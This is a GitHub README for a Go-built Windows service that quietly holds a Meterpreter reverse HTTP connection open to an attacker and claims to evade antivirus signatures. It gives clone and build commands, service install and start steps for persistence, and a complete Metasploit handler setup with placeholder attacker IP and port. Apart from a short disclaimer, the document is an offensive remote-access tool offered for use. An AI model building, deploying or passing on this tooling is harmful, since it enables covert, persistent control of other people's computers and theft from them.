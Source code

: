 ## Powershell Reverse Http

> Note: Use this program at your own risk. I do not encourage in any way the use of this software illegally or to attack targets without their previous authorization

A simple windows service running on background that connects with a meterpreter session via http, with no virus signature, keeping the connection open and renewed automagically

### Usage
First, you need [go](https://golang.org/dl/) for build the binary (duh!) and [metasploit-framework](https://github.com/rapid7/metasploit-framework) for accepts the reverse connection

Change the LHOST and LPORT on `exploit.go` (metasploit handler ip and port)
```
git clone https://github.com/mauri870/powershell-reverse-http.git
cd powershell-reverse-http
go build -o powershell-reverse.exe
```

## Usage
```
powershell-reverse.exe
no command specified

usage: powershell-reverse.exe <command>
       where <command> is one of
       install, remove, debug, start, stop, pause or continue.
```

After install and start, the service is always up and trying to connect on host and port specified on `exploit.go`

On the attacker machine:

```
./msfconsole --quiet
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_http
payload => windows/meterpreter/reverse_http
msf exploit(handler) > set LHOST YOUR_IP_ADDRESS_HERE
LHOST => YOUR_IP_ADDRESS_HERE
msf exploit(handler) > set LPORT YOUR_PORT_TO_AWAIT_CONNECTION_HERE
LPORT => YOUR_PORT_TO_AWAIT_CONNECTION_HERE
msf exploit(handler) > exploit

[*] Started HTTP reverse handler on http://LHOST:LPORT
[*] Starting the payload handler... 
```
